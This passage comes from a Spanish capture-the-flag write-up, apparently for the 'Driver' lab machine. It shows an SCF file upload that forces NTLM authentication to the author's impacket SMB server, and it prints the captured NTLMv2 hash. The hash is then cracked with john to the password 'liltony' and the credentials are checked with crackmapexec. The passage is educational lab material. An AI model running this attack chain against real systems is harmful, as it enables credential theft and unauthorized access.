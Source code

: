 levanté un servidor SMB utilizando la herramienta `impacket-smbserver`, lo que permitió capturar el intento de autenticación generado por el sistema al procesar el archivo.
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:cab8215b0256bd203c933c30a5efdacd:010100000000000080ae2871ead8db01c244e8b68e6f3d6a00000000010010004c00720048004600670069004e006500030010004c00720048004600670069004e006500020010004d005800630042005a00470063004f00040010004d005800630042005a00470063004f000700080080ae2871ead8db01060004000200000008003000300000000000000000000000002000002b7571a37465ae498275c2386619f6645344d8556bee01221a61d4d67c63772f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
```

Al momento de subir el `.scf` a través del panel, el servidor recibió una conexión entrante desde la máquina víctima, revelando exitosamente el hash NTLMv2 del usuario `tony`.

## Crack hash
Después de capturar el hash del usuario `tony`, procedí a intentar crackearlo con la herramienta `john` utilizando el diccionario `rockyou.txt`. El ataque fue exitoso y permitió recuperar la contraseña en texto claro asociada al usuario, la cual resultó ser `liltony`, como se muestra a continuación:
```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2025-06-08 23:13) 1.754g/s 55691p/s 55691c/s 55691C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```


Se utilizó `crackmapexec` para verificar si las credenciales obtenidas (`tony:liltony`) eran válidas para el servicio SMB.
```bash
❯ crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony 
```
